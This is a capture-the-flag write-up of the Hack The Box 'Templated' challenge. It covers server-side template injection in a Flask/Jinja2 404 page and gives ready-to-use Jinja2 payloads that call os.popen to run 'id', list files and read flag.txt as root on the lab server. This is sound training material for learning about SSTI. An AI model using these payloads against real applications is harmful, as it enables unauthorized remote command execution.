



# Templated

This is a write up to the Hack The Box challenge Templated which exploits vulnerabilities in SSTI (server side template injection)

The front page of the site has this.



This meant the page was templated using flask web frame work and jinja2 web templating.

To start I initially wanted to check if I could dirsearch some of the pages to see if there was a page I could go strait to aides from the home page.

```bash
python3 dirsearch.py -u http://134.209.190.86:32661/
 ```
This returned every site as 200 OK.

When visiting one of the pages it returned it as a 404, this is pretty interesting.
This means the 404 pages are possibly being templated.

A quick search on the internet meant we can find some exploits on flask and jinja2.

This is the link found: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

In this challenge we could edit the URL so I went down the **RCE Bypassing as much as i possibly can** heading and found this command:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
This will return the current user on the page.



Wow! we are root!

now try this command:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
```


looking at the files returned, we can just cat flag.txt as that will contain our flag using:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

which will return a flag where the page name normally is.
